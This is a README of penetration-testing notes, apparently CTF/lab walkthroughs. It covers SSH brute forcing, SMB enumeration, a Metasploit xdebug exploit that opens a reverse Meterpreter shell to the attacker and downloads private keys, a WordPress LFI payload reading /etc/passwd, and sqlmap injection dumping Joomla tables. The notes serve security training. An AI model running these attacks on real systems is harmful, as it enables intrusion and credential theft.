

# Pentest

## Table of Contents
* [Dictionary attack on SSH server](#CDictionary-attack-on-SSH-server)
* [SMB server reconnaissance](#SMB-server-reconnaissance)
* [Hunting Artifacts](#Hunting-Artifacts)
* [Exploit Web Application made in Wordpress](#Exploit-Web-Application-made-in-Wordpress)
* [SqlMap attack in Joomla](#SqlMap-attack-in-Joomla)


## Dictionary attack on SSH server

### Hydra (dictionary attack)
```
hydra -l student -P /usr/share/wordlists/rockyou.txt 192.40.231.3 ssh
```

### NMAP 
* using nmap scripts with password dictionary: /usr/share/nmap/nselib/data/passwords.lst

```
echo "administrator" > users
nmap -p 22 --script ssh-brute --script-args userdb=/root/users 192.40.231.3
```

### Metasploit
* using ssh_login metasploit module with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.40.231.3
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
exploit
```

## SMB server reconnaissance

### List all available shares on the samba server using Nmap script.
```
nmap --script smb-enum-shares.nse -p445 192.144.106.3
```

### List all available shares on the samba server using smb_enumshares metasploit module.
```
msfconsole
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 192.144.106.3
exploit
```

### List all available shares on the samba server using enum4Linux.
```
enum4linux -S 192.144.106.3
```

### List all available shares on the samba server using smbclient.
```
smbclient -L 192.144.106.3 -N
```

### Find domain groups that exists on the samba server by using enum4Linux.
```
enum4linux -G 192.144.106.3
```

### Find domain groups that exists on the samba server by using rpcclient.
```
rpcclient -U "" -N 192.144.106.3
> enumdomgroups
```

### Check samba server configured for printing
```
enum4linux -i 192.144.106.3
```

### How many directories are present inside share “public”
```
smbclient //192.144.106.3/public -N
smb: \> ls
```

### Fetch the flag from samba server
```
smbclient //192.144.106.3/public -N
smb: \> ls
smb: \> cd secret
smb: \> ls
smb: \> get flag
smb: \> exit

cat flag
```

## Hunting Artifacts

### Find ​ public private key pairs on the server​

1. Run an Nmap scan against the target IP
```
root@attackdefense:~# nmap -sS -sV 192.15.83.3
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-15 09:29 IST
Nmap scan report for target-1 (192.126.239.3)
Host is up (0.000040s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
MAC Address: 02:42:C0:7E:EF:03 (Unknown)
```

2. Check if phpinfo.php page is present on the webserver.
```
curl 192.15.83.3/phpinfo.php

</table><br />
<h2><a name="module_xdebug">xdebug</a></h2>
<table border="0" cellpadding="3" width="600">
<tr class="h"><th>xdebug support</th><th>enabled</th></tr>
<tr><td class="e">Version </td><td class="v">2.2.3 </td></tr>
<tr><td class="e">IDE Key </td><td class="v"><i>no value</i> </td></tr>
</table><br />
<table border="0" cellpadding="3" width="600">
<tr class="h"><th>Supported protocols</th><th>Revision</th></tr>
<tr><td class="e">DBGp - Common DeBuGger Protocol </td><td class="v">$Revision: 1.145 $ </td></tr>
</table><br />
```

3. The target machine can be exploited by using exploit/unix/http/xdebug_unauth_exec
module.

```
# msfconsole
msf5 > use exploit/unix/http/xdebug_unauth_exec 
msf5 exploit(unix/http/xdebug_unauth_exec) > set RHOSTS 192.87.86.3
RHOSTS => 192.87.86.3
msf5 exploit(unix/http/xdebug_unauth_exec) > set LHOST 192.87.86.2
LHOST => 192.87.86.2
msf5 exploit(unix/http/xdebug_unauth_exec) > exploit 

[*] Started reverse TCP handler on 192.87.86.2:4444 
[*] 192.87.86.3:80 - Waiting for client response.
[*] 192.87.86.3:80 - Receiving response
[*] 192.87.86.3:80 - Shell might take upto a minute to respond.Please be patient.
[*] 192.87.86.3:80 - Sending payload of size 2026 bytes
[*] Sending stage (38288 bytes) to 192.87.86.3
[*] Meterpreter session 1 opened (192.87.86.2:4444 -> 192.87.86.3:59002) at 2020-04-15 11:00:34 +0530

```

Public Key 1
```
meterpreter > search -d /usr/ -f *.pub
Found 1 result...                                                                             
    /usr/local/bin/user_public.pub (751 bytes)                                                
meterpreter > download /usr/local/bin/user_public.pub
[*] Downloading: /usr/local/bin/user_public.pub -> user_public.pub
[*] Downloaded 751.00 B of 751.00 B (100.0%): /usr/local/bin/user_public.pub -> user_public.pub
[*] download   : /usr/local/bin/user_public.pub -> user_public.pub
meterpreter > edit /usr/local/bin/user_public.pub
```

Public Key 2
```
meterpreter > search -d /tmp -f *.pub
Found 1 result...
    /tmp/public_key.pub (752 bytes)
meterpreter > download /tmp/public_key.pub
[*] Downloading: /tmp/public_key.pub -> public_key.pub
[*] Downloaded 752.00 B of 752.00 B (100.0%): /tmp/public_key.pub -> public_key.pub
[*] download   : /tmp/public_key.pub -> public_key.pub
meterpreter > edit /tmp/public_key.pub
```

Public Key 3
```
meterpreter > search -d /opt/ -f *.pub
Found 1 result...
    /opt/id_rsa3.pub (752 bytes)
meterpreter > download /opt/id_rsa3.pub
[*] Downloading: /opt/id_rsa3.pub -> id_rsa3.pub
[*] Downloaded 752.00 B of 752.00 B (100.0%): /opt/id_rsa3.pub -> id_rsa3.pub
[*] download   : /opt/id_rsa3.pub -> id_rsa3.pub
meterpreter > edit /opt/id_rsa3.pub
```

Private Key 1

```
meterpreter > search -d /usr -f *private*
Found 5 results...
    /usr/bin/user_private (3243 bytes)
    /usr/lib/ssl/private (4096 bytes)
    /usr/lib/x86_64-linux-gnu/libapt-private.so.0.0 (233320 bytes)
    /usr/lib/x86_64-linux-gnu/libapt-private.so.0.0.0 (233320 bytes)
    /usr/share/perl/5.18.2/inc/latest/private.pm (2299 bytes)
meterpreter > download /usr/bin/user_private
[*] Downloading: /usr/bin/user_private -> user_private
[*] Downloaded 3.17 KiB of 3.17 KiB (100.0%): /usr/bin/user_private -> user_private
[*] download   : /usr/bin/user_private -> user_private
meterpreter > edit /usr/bin/user_private
```

Private Key 2

```
meterpreter > search -d /var/log -f *private*
Found 1 result...
    /var/log/private_key (3243 bytes)
meterpreter > download /var/log/private_key
[*] Downloading: /var/log/private_key -> private_key
[*] Downloaded 3.17 KiB of 3.17 KiB (100.0%): /var/log/private_key -> private_key
[*] download   : /var/log/private_key -> private_key
meterpreter > edit /var/log/private_key

```

Private Key 3

```
meterpreter > search -d /usr -f id_rsa3
Found 1 result...
    /usr/local/share/id_rsa3 (3247 bytes)
meterpreter > download /usr/local/share/id_rsa3
[*] Downloading: /usr/local/share/id_rsa3 -> id_rsa3
[*] Downloaded 3.17 KiB of 3.17 KiB (100.0%): /usr/local/share/id_rsa3 -> id_rsa3
[*] download   : /usr/local/share/id_rsa3 -> id_rsa3
meterpreter > edit /usr/local/share/id_rsa3
```


Answer
Location of keys
● /usr/bin/user_private
● /usr/local/bin/user_public.pub
● /var/log/private_key
● /tmp/public_key.pub
● /usr/local/share/id_rsa3
● /opt/id_rsa3.pub

## Exploit Web Application made in Wordpress

1. Inspect the web application.
2. Identify the plugins installed on the wordpress site
```
kali@kali:~$ wpscan --url http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/ --plugins-detection aggressive
_______________________________________________________________                     
         __          _______   _____                                                 
         \ \        / /  __ \ / ____|                                                
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.0
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/ [172.104.189.198]
[+] Started: Sat Apr 18 06:48:20 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.7 (Ubuntu)
 |  - X-Powered-By: PHP/5.5.9-1ubuntu4.25
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.8'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/, Match: 'WordPress 4.8'

[+] WordPress theme in use: twentyseventeen
 | Location: http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-03-31T00:00:00.000Z
 | Readme: http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.3
 | Style URL: http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:17:25 <==> (86130 / 86130) 100.00% Time: 00:17:25
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 | Readme: http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-content/plugins/site-editor/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-content/plugins/site-editor/, status: 200
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://52p67tgf5r0gmot0p3dyyqx8c.ctf-singapore.attackdefenselabs.com/wp-content/plugins/site-editor/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Sat Apr 18 07:06:03 2020
[+] Requests Done: 86202
[+] Cached Requests: 7
[+] Data Sent: 28.616 MB
[+] Data Received: 26.24 MB
[+] Memory used: 386.617 MB
[+] Elapsed time: 00:17:43

```
3. Search on google “wordpress site editor plugin exploit” and look for publically available
exploits.

The exploit db link contains the payload required to exploit the vulnerability.
Exploit DB Link: ​ https://www.exploit-db.com/exploits/44340


4. Form the URL required to exploit the vulnerability and navigate to it.

```
** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```





## SqlMap attack in Joomla


1. Inspect the web application.

2. Identify the components installed on the Joomla application. Navigate to
   /administrator/components/

3. Search on google “Joomla Yandexmap Exploit” and look for publically available
   exploits.

   Exploit DB Link:  https://www.exploit-db.com/exploits/43975

4. Use SQLmap to perform SQLI attack on the vulnerable parameter specified on the
   exploit db link

   Vulnerable parameter: id
   
   URL:
   http://wecifn1kseu7l7t4dwjwera15.hidenseek-1.attackdefenselabs.com/index.php?option=com_
   zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123

   Command:  sqlmap -u
   "http://wecifn1kseu7l7t4dwjwera15.hidenseek-1.attackdefenselabs.com/index.php?option=com_
   zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123" -p id


```
sqlmap -u "http://q5des4mlzso357n42v08t10ed.ctf-singapore.attackdefenselabs.com/index.php?option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123" -p id 

[00:32:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
[00:32:31] [INFO] fetching database names
[00:32:31] [WARNING] reflective value(s) found and filtering out
[00:32:31] [INFO] retrieved: 'information_schema'
[00:32:32] [INFO] retrieved: 'app'
[00:32:32] [INFO] retrieved: 'mysql'
[00:32:32] [INFO] retrieved: 'performance_schema'
[00:32:32] [INFO] fetching tables for databases: 'app, information_schema, mysql, performance_schema'
[00:32:32] [INFO] retrieved: 'information_schema','CHARACTER_SETS'
[00:32:32] [INFO] retrieved: 'information_schema','COLLATIONS'
[00:32:32] [INFO] retrieved: 'information_schema','COLLATION_CHARACTER_SET_APPLICABILITY'
[00:32:32] [INFO] retrieved: 'information_schema','COLUMNS'
[00:32:32] [INFO] retrieved: 'information_schema','COLUMN_PRIVILEGES'
[00:32:33] [INFO] retrieved: 'information_schema','ENGINES'
[00:32:33] [INFO] retrieved: 'information_schema','EVENTS'
[00:32:33] [INFO] retrieved: 'information_schema','FILES'
[00:32:33] [INFO] retrieved: 'information_schema','GLOBAL_STATUS'
[00:32:33] [INFO] retrieved: 'information_schema','GLOBAL_VARIABLES'
[00:32:33] [INFO] retrieved: 'information_schema','KEY_COLUMN_USAGE'
[00:32:33] [INFO] retrieved: 'information_schema','PARAMETERS'
[00:32:33] [INFO] retrieved: 'information_schema','PARTITIONS'
[00:32:33] [INFO] retrieved: 'information_schema','PLUGINS'
[00:32:33] [INFO] retrieved: 'information_schema','PROCESSLIST'
[00:32:33] [INFO] retrieved: 'information_schema','PROFILING'
[00:32:34] [INFO] retrieved: 'information_schema','REFERENTIAL_CONSTRAINTS'
[00:32:34] [INFO] retrieved: 'information_schema','ROUTINES'
[00:32:34] [INFO] retrieved: 'information_schema','SCHEMATA'
[00:32:34] [INFO] retrieved: 'information_schema','SCHEMA_PRIVILEGES'
[00:32:34] [INFO] retrieved: 'information_schema','SESSION_STATUS'
[00:32:34] [INFO] retrieved: 'information_schema','SESSION_VARIABLES'
[00:32:34] [INFO] retrieved: 'information_schema','STATISTICS'
[00:32:34] [INFO] retrieved: 'information_schema','TABLES'
[00:32:34] [INFO] retrieved: 'information_schema','TABLESPACES'
[00:32:34] [INFO] retrieved: 'information_schema','TABLE_CONSTRAINTS'
[00:32:34] [INFO] retrieved: 'information_schema','TABLE_PRIVILEGES'
[00:32:35] [INFO] retrieved: 'information_schema','TRIGGERS'
[00:32:35] [INFO] retrieved: 'information_schema','USER_PRIVILEGES'
[00:32:35] [INFO] retrieved: 'information_schema','VIEWS'
[00:32:35] [INFO] retrieved: 'information_schema','INNODB_BUFFER_PAGE'
[00:32:35] [INFO] retrieved: 'information_schema','INNODB_TRX'
[00:32:35] [INFO] retrieved: 'information_schema','INNODB_BUFFER_POOL_STATS'
[00:32:35] [INFO] retrieved: 'information_schema','INNODB_LOCK_WAITS'
[00:32:35] [INFO] retrieved: 'information_schema','INNODB_CMPMEM'
[00:32:36] [INFO] retrieved: 'information_schema','INNODB_CMP'
[00:32:36] [INFO] retrieved: 'information_schema','INNODB_LOCKS'
[00:32:36] [INFO] retrieved: 'information_schema','INNODB_CMPMEM_RESET'
[00:32:36] [INFO] retrieved: 'information_schema','INNODB_CMP_RESET'
[00:32:36] [INFO] retrieved: 'information_schema','INNODB_BUFFER_PAGE_LRU'
[00:32:36] [INFO] retrieved: 'app','api_registrars'
[00:32:36] [INFO] retrieved: 'app','categories'
[00:32:36] [INFO] retrieved: 'app','creation_types'
[00:32:36] [INFO] retrieved: 'app','currencies'
[00:32:37] [INFO] retrieved: 'app','currency_conversions'
[00:32:37] [INFO] retrieved: 'app','custom_field_types'
[00:32:37] [INFO] retrieved: 'app','dns'
[00:32:37] [INFO] retrieved: 'app','domain_field_data'
[00:32:37] [INFO] retrieved: 'app','domain_fields'
[00:32:37] [INFO] retrieved: 'app','domain_queue'
[00:32:37] [INFO] retrieved: 'app','domain_queue_history'
[00:32:37] [INFO] retrieved: 'app','domain_queue_list'
[00:32:37] [INFO] retrieved: 'app','domain_queue_list_history'
[00:32:38] [INFO] retrieved: 'app','domain_queue_temp'
[00:32:38] [INFO] retrieved: 'app','domains'
[00:32:38] [INFO] retrieved: 'app','dw_servers'
[00:32:38] [INFO] retrieved: 'app','fees'
[00:32:38] [INFO] retrieved: 'app','flag'
[00:32:38] [INFO] retrieved: 'app','goal_activity'
[00:32:38] [INFO] retrieved: 'app','hosting'
[00:32:38] [INFO] retrieved: 'app','ip_addresses'
[00:32:38] [INFO] retrieved: 'app','log'
[00:32:39] [INFO] retrieved: 'app','owners'
[00:32:39] [INFO] retrieved: 'app','registrar_accounts'
[00:32:39] [INFO] retrieved: 'app','registrars'
[00:32:39] [INFO] retrieved: 'app','scheduler'
[00:32:40] [INFO] retrieved: 'app','segment_data'
[00:32:40] [INFO] retrieved: 'app','segments'
[00:32:40] [INFO] retrieved: 'app','settings'
[00:32:40] [INFO] retrieved: 'app','ssl_accounts'
[00:32:40] [INFO] retrieved: 'app','ssl_cert_field_data'
[00:32:40] [INFO] retrieved: 'app','ssl_cert_fields'
[00:32:40] [INFO] retrieved: 'app','ssl_cert_types'
[00:32:40] [INFO] retrieved: 'app','ssl_certs'
[00:32:40] [INFO] retrieved: 'app','ssl_fees'
[00:32:40] [INFO] retrieved: 'app','ssl_providers'
[00:32:40] [INFO] retrieved: 'app','timezones'
[00:32:41] [INFO] retrieved: 'app','user_settings'
[00:32:41] [INFO] retrieved: 'app','users'
[00:32:41] [INFO] retrieved: 'app','vbh7c_assets'
[00:32:41] [INFO] retrieved: 'app','vbh7c_associations'
[00:32:41] [INFO] retrieved: 'app','vbh7c_banner_clients'
[00:32:41] [INFO] retrieved: 'app','vbh7c_banner_tracks'
[00:32:41] [INFO] retrieved: 'app','vbh7c_banners'
[00:32:41] [INFO] retrieved: 'app','vbh7c_categories'
[00:32:41] [INFO] retrieved: 'app','vbh7c_contact_details'
[00:32:42] [INFO] retrieved: 'app','vbh7c_content'
[00:32:42] [INFO] retrieved: 'app','vbh7c_content_frontpage'
[00:32:42] [INFO] retrieved: 'app','vbh7c_content_rating'
[00:32:42] [INFO] retrieved: 'app','vbh7c_content_types'
[00:32:42] [INFO] retrieved: 'app','vbh7c_contentitem_tag_map'
[00:32:42] [INFO] retrieved: 'app','vbh7c_core_log_searches'
[00:32:42] [INFO] retrieved: 'app','vbh7c_extensions'
[00:32:42] [INFO] retrieved: 'app','vbh7c_fields'
[00:32:42] [INFO] retrieved: 'app','vbh7c_fields_categories'
[00:32:43] [INFO] retrieved: 'app','vbh7c_fields_groups'
[00:32:43] [INFO] retrieved: 'app','vbh7c_fields_values'
[00:32:43] [INFO] retrieved: 'app','vbh7c_finder_filters'
[00:32:43] [INFO] retrieved: 'app','vbh7c_finder_links'
[00:32:43] [INFO] retrieved: 'app','vbh7c_finder_links_terms0'
[00:32:43] [INFO] retrieved: 'app','vbh7c_finder_links_terms1'
[00:32:43] [INFO] retrieved: 'app','vbh7c_finder_links_terms2'
[00:32:43] [INFO] retrieved: 'app','vbh7c_finder_links_terms3'
[00:32:43] [INFO] retrieved: 'app','vbh7c_finder_links_terms4'
[00:32:43] [INFO] retrieved: 'app','vbh7c_finder_links_terms5'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_terms6'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_terms7'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_terms8'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_terms9'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_termsa'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_termsb'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_termsc'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_termsd'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_termse'
[00:32:44] [INFO] retrieved: 'app','vbh7c_finder_links_termsf'
[00:32:45] [INFO] retrieved: 'app','vbh7c_finder_taxonomy'
[00:32:45] [INFO] retrieved: 'app','vbh7c_finder_taxonomy_map'
[00:32:45] [INFO] retrieved: 'app','vbh7c_finder_terms'
[00:32:45] [INFO] retrieved: 'app','vbh7c_finder_terms_common'
[00:32:45] [INFO] retrieved: 'app','vbh7c_finder_tokens'
[00:32:45] [INFO] retrieved: 'app','vbh7c_finder_tokens_aggregate'
[00:32:45] [INFO] retrieved: 'app','vbh7c_finder_types'
[00:32:45] [INFO] retrieved: 'app','vbh7c_languages'
[00:32:45] [INFO] retrieved: 'app','vbh7c_menu'
[00:32:45] [INFO] retrieved: 'app','vbh7c_menu_types'
[00:32:46] [INFO] retrieved: 'app','vbh7c_messages'
[00:32:46] [INFO] retrieved: 'app','vbh7c_messages_cfg'
[00:32:46] [INFO] retrieved: 'app','vbh7c_modules'
[00:32:46] [INFO] retrieved: 'app','vbh7c_modules_menu'
[00:32:46] [INFO] retrieved: 'app','vbh7c_newsfeeds'
[00:32:46] [INFO] retrieved: 'app','vbh7c_overrider'
[00:32:46] [INFO] retrieved: 'app','vbh7c_postinstall_messages'
[00:32:46] [INFO] retrieved: 'app','vbh7c_redirect_links'
[00:32:47] [INFO] retrieved: 'app','vbh7c_schemas'
[00:32:47] [INFO] retrieved: 'app','vbh7c_session'
[00:32:47] [INFO] retrieved: 'app','vbh7c_tags'
[00:32:47] [INFO] retrieved: 'app','vbh7c_template_styles'
[00:32:47] [INFO] retrieved: 'app','vbh7c_ucm_base'
[00:32:47] [INFO] retrieved: 'app','vbh7c_ucm_content'
[00:32:47] [INFO] retrieved: 'app','vbh7c_ucm_history'
[00:32:47] [INFO] retrieved: 'app','vbh7c_update_sites'
[00:32:47] [INFO] retrieved: 'app','vbh7c_update_sites_extensions'
[00:32:47] [INFO] retrieved: 'app','vbh7c_updates'
[00:32:48] [INFO] retrieved: 'app','vbh7c_user_keys'
[00:32:48] [INFO] retrieved: 'app','vbh7c_user_notes'
[00:32:48] [INFO] retrieved: 'app','vbh7c_user_profiles'
[00:32:48] [INFO] retrieved: 'app','vbh7c_user_usergroup_map'
[00:32:48] [INFO] retrieved: 'app','vbh7c_usergroups'
[00:32:48] [INFO] retrieved: 'app','vbh7c_users'
[00:32:48] [INFO] retrieved: 'app','vbh7c_utf8_conversion'
[00:32:48] [INFO] retrieved: 'app','vbh7c_viewlevels'
[00:32:48] [INFO] retrieved: 'app','vbh7c_zhyandexmaps_maps'
[00:32:48] [INFO] retrieved: 'app','vbh7c_zhyandexmaps_maptypes'
[00:32:48] [INFO] retrieved: 'app','vbh7c_zhyandexmaps_markergroups'
[00:32:49] [INFO] retrieved: 'app','vbh7c_zhyandexmaps_markers'
[00:32:49] [INFO] retrieved: 'app','vbh7c_zhyandexmaps_paths'
[00:32:49] [INFO] retrieved: 'app','vbh7c_zhyandexmaps_routers'
[00:32:49] [INFO] retrieved: 'mysql','columns_priv'
[00:32:49] [INFO] retrieved: 'mysql','db'
[00:32:49] [INFO] retrieved: 'mysql','event'
[00:32:49] [INFO] retrieved: 'mysql','func'
[00:32:49] [INFO] retrieved: 'mysql','general_log'
[00:32:50] [INFO] retrieved: 'mysql','help_category'
[00:32:50] [INFO] retrieved: 'mysql','help_keyword'
[00:32:50] [INFO] retrieved: 'mysql','help_relation'
[00:32:50] [INFO] retrieved: 'mysql','help_topic'
[00:32:50] [INFO] retrieved: 'mysql','host'
[00:32:50] [INFO] retrieved: 'mysql','ndb_binlog_index'
[00:32:50] [INFO] retrieved: 'mysql','plugin'
[00:32:50] [INFO] retrieved: 'mysql','proc'
[00:32:50] [INFO] retrieved: 'mysql','procs_priv'
[00:32:50] [INFO] retrieved: 'mysql','proxies_priv'
[00:32:50] [INFO] retrieved: 'mysql','servers'
[00:32:51] [INFO] retrieved: 'mysql','slow_log'
[00:32:51] [INFO] retrieved: 'mysql','tables_priv'
[00:32:51] [INFO] retrieved: 'mysql','time_zone'
[00:32:51] [INFO] retrieved: 'mysql','time_zone_leap_second'
[00:32:51] [INFO] retrieved: 'mysql','time_zone_name'
[00:32:51] [INFO] retrieved: 'mysql','time_zone_transition'
[00:32:51] [INFO] retrieved: 'mysql','time_zone_transition_type'
[00:32:51] [INFO] retrieved: 'mysql','user'
[00:32:51] [INFO] retrieved: 'performance_schema','cond_instances'
[00:32:51] [INFO] retrieved: 'performance_schema','events_waits_current'
[00:32:52] [INFO] retrieved: 'performance_schema','events_waits_history'
[00:32:52] [INFO] retrieved: 'performance_schema','events_waits_history_long'
[00:32:52] [INFO] retrieved: 'performance_schema','events_waits_summary_by_instance'
[00:32:52] [INFO] retrieved: 'performance_schema','events_waits_summary_by_thread_by_event_name'
[00:32:52] [INFO] retrieved: 'performance_schema','events_waits_summary_global_by_event_name'
[00:32:52] [INFO] retrieved: 'performance_schema','file_instances'
[00:32:52] [INFO] retrieved: 'performance_schema','file_summary_by_event_name'
[00:32:52] [INFO] retrieved: 'performance_schema','file_summary_by_instance'
[00:32:53] [INFO] retrieved: 'performance_schema','mutex_instances'
[00:32:53] [INFO] retrieved: 'performance_schema','performance_timers'
[00:32:53] [INFO] retrieved: 'performance_schema','rwlock_instances'
[00:32:53] [INFO] retrieved: 'performance_schema','setup_consumers'
[00:32:53] [INFO] retrieved: 'performance_schema','setup_instruments'
[00:32:53] [INFO] retrieved: 'performance_schema','setup_timers'
[00:32:53] [INFO] retrieved: 'performance_schema','threads'
Database: app                                                                                    
[117 tables]
+----------------------------------------------+
| flag                                         |
| api_registrars                               |
| categories                                   |
| creation_types                               |
| currencies                                   |
| currency_conversions                         |
| custom_field_types                           |
| dns                                          |
| domain_field_data                            |
| domain_fields                                |
| domain_queue                                 |
| domain_queue_history                         |
| domain_queue_list                            |
| domain_queue_list_history                    |
| domain_queue_temp                            |
| domains                                      |
| dw_servers                                   |
| fees                                         |
| goal_activity                                |
| hosting                                      |
| ip_addresses                                 |
| log                                          |
| owners                                       |
| registrar_accounts                           |
| registrars                                   |
| scheduler                                    |
| segment_data                                 |
| segments                                     |
| settings                                     |
| ssl_accounts                                 |
| ssl_cert_field_data                          |
| ssl_cert_fields                              |
| ssl_cert_types                               |
| ssl_certs                                    |
| ssl_fees                                     |
| ssl_providers                                |
| timezones                                    |
| user_settings                                |
| users                                        |
| vbh7c_assets                                 |
| vbh7c_associations                           |
| vbh7c_banner_clients                         |
| vbh7c_banner_tracks                          |
| vbh7c_banners                                |
| vbh7c_categories                             |
| vbh7c_contact_details                        |
| vbh7c_content                                |
| vbh7c_content_frontpage                      |
| vbh7c_content_rating                         |
| vbh7c_content_types                          |
| vbh7c_contentitem_tag_map                    |
| vbh7c_core_log_searches                      |
| vbh7c_extensions                             |
| vbh7c_fields                                 |
| vbh7c_fields_categories                      |
| vbh7c_fields_groups                          |
| vbh7c_fields_values                          |
| vbh7c_finder_filters                         |
| vbh7c_finder_links                           |
| vbh7c_finder_links_terms0                    |
| vbh7c_finder_links_terms1                    |
| vbh7c_finder_links_terms2                    |
| vbh7c_finder_links_terms3                    |
| vbh7c_finder_links_terms4                    |
| vbh7c_finder_links_terms5                    |
